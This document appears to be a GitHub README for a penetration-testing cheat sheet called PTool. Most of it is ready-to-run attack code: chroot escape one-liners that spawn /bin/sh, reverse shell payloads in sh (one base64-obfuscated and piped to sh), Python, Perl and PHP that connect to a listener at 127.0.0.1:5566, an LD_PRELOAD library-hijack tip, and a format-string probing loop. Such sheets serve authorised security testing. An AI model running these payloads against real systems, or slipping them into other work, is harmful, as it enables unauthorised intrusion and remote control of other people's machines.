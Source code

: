 # PTool #
The [penetration test][0] tool set.

## Cheat Sheet ##

### chroot escape ###

| binary | script                                      |
|--------|---------------------------------------------|
| find   | find -exec '/bin/sh'                        |
| awk    | awk 'BEGIN {system("/bin/sh")}'             |
| python | python -c 'import os; os.system("/bin/sh")' |

### cryptography ###

| type   | command                    | description                 |
|--------|----------------------------|-----------------------------|
| base64 | base64 -d                  | decode the Base 64 encoding |
| rot13  | tr 'A-Za-z' 'N-ZA-Mn-za-m' | rot13                       |

### reversed shell ###

shell
```sh
sh -i >& /dev/tcp/127.0.0.1/5566 0>&1
```

shell with base64 encoding
```sh
# echo -n "/bin/sh -i >& /dev/tcp/127.0.0.1/5566 0>&1" | base64 | base64 -d | sh
echo "L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNTU2NiAwPiYx" | base64 -d | sh
```

python2
```python
import socket, os;

sk = socket.create_connection(("127.0.0.1", 5566))
fd = sk.fileno()
os.popen("bash -i <&{0} >&{0} 2>&{0}".format(fd))
```

python3
```python3
import socket, os, subprocess

sk = socket.create_connection(("127.0.0.1", 5566))
fd = sk.fileno()
subprocess.Popen(["/bin/sh", "-c", f"/bin/sh -i <{fd} >&{fd} 2>&{fd}"]);
```

perl
```perl
use Socket;

socket(s, AF_INET, SOCK_STREAM, 0);
connect(s, pack_sockaddr_in(5566, inet_aton("127.0.0.1"))) or die;
open(STDIN, ">&s");
open(STDOUT, ">&s");
open(STDERR, ">&s");
exec("/bin/sh -i");
```

php
```php
<?php $sk = fsockopen("127.0.0.1", 5566); exec("/bin/bash -i <&3 >&3 2>&3"); ?>
```

### Preload ###
build and load the external .so file by `LD_PRELOAD=payload.so BIN` and the binary will call the libc function
defined in the payload.so. The payload.so file could be compiled via `gcc -shared -fPIC -o payload.so payload.c`.
Also run `LD_DEBUG=all` to show all debug message

## C / format string attack ##
quick check the address

```sh
# for n in $(seq 1 30); do ./a.out $(python -c "print(\"AAAA-${n}-%${n}\$p-%${n}\$s\")"); echo ''; done

for n in $(seq 1 30);
do
	./a.out $(python -c "print(\"AAAA-${n}-%${n}\$p-%${n}\$s\")")
	echo ''
done
```
 



[0]: https://en.wikipedia.org/wiki/Penetration_test
